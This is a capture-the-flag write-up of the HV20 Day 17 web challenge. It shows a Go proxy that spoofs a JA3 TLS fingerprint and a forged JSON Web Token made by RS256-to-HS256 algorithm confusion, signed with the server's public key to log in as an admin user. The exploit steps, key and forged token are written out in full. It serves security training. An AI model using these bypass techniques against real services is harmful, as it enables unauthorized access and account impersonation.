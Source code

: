 [← Day 16](../day16/) / [↑ TOC](../README.md) / [→ Day 18](../day18/)


# Day 17 / HV20.17 Santa's Gift Factory Control



## Challenge

<!-- ...10....:...20....:...30....:...40....:...50....:...60....:...70....:. -->
* Author: fix86
* Tags:   #crypto #web-security
* Level:  hard

Santa has a customized remote control panel for his gift factory at the north
pole. Only clients with the following fingerprint seem to be able to connect:

`771,49162-49161-52393-49200-49199-49172-49171-52392,0-13-5-11-43-10,23-24,0`


### Mission

Connect to Santa's super-secret control panel and circumvent its access
controls.

[Santa's Control Panel](https://876cfcc0-1928-4a71-a63e-29334ca287a0.rdocker.vuln.land/)


### Hints

* If you get a `403 forbidden`: this is part of the challenge
* The remote control panel does client fingerprinting
* There is an information leak somewhere which you need to solve the challenge
* The challenge is not solvable using brute force or injection vulnerabilities
* Newlines matter, check your files



## Solution


### Overcoming the 403

Searching the web for the finger print number from the description returned the
information that it's a [JA3 finger print](https://github.com/salesforce/ja3).

There was only one project discoverable on the web that provided means to
mimic a JA3 finger print. It's called [JA3Transport]() and it's written in Go.
Here is a [blog post]() kind of article about impersonating JA3 finger prints.

[JA3Transport]: https://github.com/cucyber/JA3Transport
[blog post]: https://medium.com/cu-cyber/impersonating-ja3-fingerprints-b9f555880e42

The project was used to ultimately build a proxy (thanks again mcia) thus
allowing to use a standard browser while impersonating the JA3 finger print.

```go
package main

import (
	"fmt"
	"github.com/CUCyber/ja3transport"
	"log"
	"net/http"
	"net/http/httputil"
	"net/url"
)

func main() {
	// start proxy
	http.HandleFunc("/", Proxy)
	fmt.Println("About to listen on port 8081...")
	log.Fatal(http.ListenAndServe(":"+"8081", nil))
}

func Proxy(res http.ResponseWriter, req *http.Request) {
	uri := "https://876cfcc0-1928-4a71-a63e-29334ca287a0.rdocker.vuln.land"
	serveReverseProxy(uri, res, req)
}

func serveReverseProxy(target string, res http.ResponseWriter, req *http.Request) {
	// parse the url
	uri, _ := url.Parse(target)
	tr, _ := ja3transport.NewTransport("771,49162-49161-52393-49200-49199-49172-49171-52392,0-13-5-11-43-10,23-24,0")

	proxy := httputil.NewSingleHostReverseProxy(uri)
	proxy.Transport = tr
	proxy.ServeHTTP(res, req)
}
```

The now accessible web page looked like this:

![](screenshot_login.png)


### Searching and finding an additional angle

After erratic trials to find any aspect about this web page that could be
leveraged I finally arrived at the topic of [JSON Web Tokens]().

[JSON Web Tokens]: https://en.wikipedia.org/wiki/JSON_Web_Token

While trying to login with the credentials `admin`/`admin`, two noticable
things happend:

1. The browser was suddenly given a JSON Web Token as cookie.
2. There was a strange message in the HTML source code:
   `<!--DevNotice: User santa seems broken. Temporarily use santa1337.-->`
   This is probably the info leak that was mentioned in the challenge hints.

There exists a set of vulnerabilities that are – at least to me – 
astounding. See: [Critical vulnerabilites in JSON Web Token libraries]()

[Critical vulnerabilites in JSON Web Token libraries]: https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/

The vulnerability that was used here is the sweetest of the bunch: In a web
token there are at least the following two methods to sign and verify a token:
RSA and HMAC. 

With HMAC the idea is that the signing key is kept secret and is used by the
server to verify token authenticity.

With RSA the signing key is a secret private key and the verification key is a
public key. With RSA not only the server but everybody can verify the
authenticity of tokens. The URL to the public key is even part of the token.

The vulnerability is that the server side library that handles the tokens can
be told by the user that any given token was not signed with the RSA method (as
previously published by the server) but was signed with the HMAC method. The
fatality about this is that the server will automatically assume, that the 
public RSA key is a private HMAC key and will use it to verify the token. And
since that key is public to anyone the attacker can use it to sign arbitrary
tokens. How cool is that ? `(o_O)`


### Cookie modding

The cookie the was received from the server was decoded into the following
structure:

```json
Header:
{
  "typ": "JWT",
  "alg": "RS256",
  "kid": "/keys/1d21a9f945"
}

Payload:
{
  "exp": 1609416502,
  "iat": 1609412902,
  "sub": "none"
}

Signature:
{
   [some bytes]
}
```

Next the public key was retrieved from the server:

```
$ curl -O http://localhost:8081/keys/1d21a9f945"
-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA0KDtdDsZ/wpGXWRnP6DY
Ri7OxTWiwPVg8eTsVcmbzAkk2r4itb3NqRw9xpJeUHorgfw1f9GkuAFg/squMrXb
SYM0Vcxqmtsq379xCw6s0pxIafPR7TEAVRh5Mxrudl2lwiO4vJPs+2tmcgui/bFn
wC+qByZtIlsP+rlT/MF2wLaWe/LNAWtOXdFVDOzUy6ylLZeL6fRtt9SiuUOQkkC3
US8TmvVQYcCcwvu4GBJeGdlKrbIuXIohl7hP5i9/KZ3kIvzByp/Xk5iq+tH95/9u
X/9FHKUSrcRE4NYVRhkqHPpn/EbqXHMX0BM0QoGETORlpZIo/lAOQ7/ezOd9z1fw
zwIDAQAB
-----END PUBLIC KEY-----
```

At last a new cookie was forged (with the help of [CyberChef]()) with the
following payload:

[CyberChef]: https://gchq.github.io/CyberChef/#recipe=JWT_Sign('-----BEGIN%20PUBLIC%20KEY-----%5CnMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA0KDtdDsZ/wpGXWRnP6DY%5CnRi7OxTWiwPVg8eTsVcmbzAkk2r4itb3NqRw9xpJeUHorgfw1f9GkuAFg/squMrXb%5CnSYM0Vcxqmtsq379xCw6s0pxIafPR7TEAVRh5Mxrudl2lwiO4vJPs%2B2tmcgui/bFn%5CnwC%2BqByZtIlsP%2BrlT/MF2wLaWe/LNAWtOXdFVDOzUy6ylLZeL6fRtt9SiuUOQkkC3%5CnUS8TmvVQYcCcwvu4GBJeGdlKrbIuXIohl7hP5i9/KZ3kIvzByp/Xk5iq%2BtH95/9u%5CnX/9FHKUSrcRE4NYVRhkqHPpn/EbqXHMX0BM0QoGETORlpZIo/lAOQ7/ezOd9z1fw%5CnzwIDAQAB%5Cn-----END%20PUBLIC%20KEY-----%5Cn','HS256')&input=ewogICJleHAiOiAxNjA5NDE2NTAyLAogICJpYXQiOiAxNjA5NDEyOTAyLAogICJzdWIiOiAic2FudGExMzM3Igp9

```json
Payload:
{
  "exp": 1609416502,
  "iat": 1609412902,
  "sub": "santa1337"
}
```

The result …

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE2MDk0MTY1MDIsImlhdCI6MTYwOTQxMjkwMiwic3ViIjoic2FudGExMzM3In0.8QCk0LVJEEf-zieqEE6DPf3QM8nAgYmSqTw9Pei8Jvc
```

… was used to replace the cookie that was received from the server earlier.

And voilà, the server thinks I'm Santa and gave me access:

![](screenshot_access.png)

The flag was a comment in the HTML source code:

```html
<!DOCTYPE html>
<html>
    <head>
        <meta charset="utf-8">
        <title>Santa's Control Panel</title>
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <link href="static/bootstrap/bootstrap.min.css" rel="stylesheet" media="screen">
        <link href="static/fontawesome/css/all.min.css" rel="stylesheet" media="screen">
        <link href="static/style.css" rel="stylesheet" media="screen">
    </head>
    <!--Congratulations, here's your flag: HV20{ja3_h45h_1mp3r50n4710n_15_fun}-->
    <body class="loggedin">
        <nav class="navtop">
            <div>
```

<!-- ...10....:...20....:...30....:...40....:...50....:...60....:...70....:. -->

--------------------------------------------------------------------------------

Flag: `HV20{ja3_h45h_1mp3r50n4710n_15_fun}`

[← Day 16](../day16/) / [↑ TOC](../README.md) / [→ Day 18](../day18/)

